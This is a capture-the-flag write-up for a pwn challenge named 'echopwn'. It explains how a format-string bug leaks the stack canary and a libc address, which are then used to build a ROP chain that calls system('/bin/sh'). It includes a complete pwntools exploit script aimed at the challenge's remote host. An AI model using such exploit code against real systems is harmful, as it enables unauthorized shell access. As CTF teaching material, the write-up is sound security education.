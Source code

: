 ### 0x00 Challenge: echopwn
**Description:**
>nc 168.119.247.237 5011

### 0x01 Write-up:
This program has two vulnerabilities: a format string and a buffer overflow. In this program you can not run code in the stack because it is compiled with NX enabled and it is also compiled with stack-protector (canaries) to prevent buffer overflow attacks, thus to solve this challenge you have to bypass the stack canary protection and make a simple ROP (Return oriented programming) to run system("/bin/sh"). To do this, you need to know the value of the stack canary and a glibc address, so, you can use the format string vulnerability to leak the canary and a libc address.

Therefore, the exploit consist in:
1. Leak canary and libc address;
2. Calculate the libc base address;
3. Search ROP gadgets (pop rdi; ret);
4. Make the payload (bypass the canary + gadgets); and
5. Run it.

**Exploit:**
```python
from pwn import *

context(arch = 'amd64', os = 'linux')

context.terminal = ["tmux", "splitw", "-h"]

elf = ELF("./echopwn")
p = remote("168.119.247.237", 5011)

"""
p = gdb.debug("./echopwn", '''
break main
break doRead+123
''')
#p.timeout = 0.5
"""
libc = elf.libc

p.sendline("%13$p,%19$p")
data = p.recvuntil("\x0a").decode('iso-8859-1').replace("echo> ","")
log.info("Canary: " + data.split(",")[0])
canary = int(data.split(",")[0], 16)
libc_start_main_addr = int(data.split(",")[1], 16) - 237
libc.address = libc_start_main_addr - libc.sym.__libc_start_main
log.info(f"libc addr: 0x{libc.address:02x}")
##### ROP Gadgets #####
rop = ROP(libc)
pop_rdx = (rop.find_gadget(['pop rdx', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
log.info(f"pop rdi gadget: 0x{pop_rdi:02x}")

p.recvuntil("echo>")
# Exploit
p.sendline(b"A"*52 + p64(canary) + b"AAAAAAAA"+p64(pop_rdi)+p64(next(libc.search(b'/bin/sh\0')))+p64(libc.sym.system))

p.interactive()
```

**Participant write-ups:**  
<a href="https://scavengersecurity.com/dekractf-weird-chall-pwn/">Write-up by Scavenger Security</a>

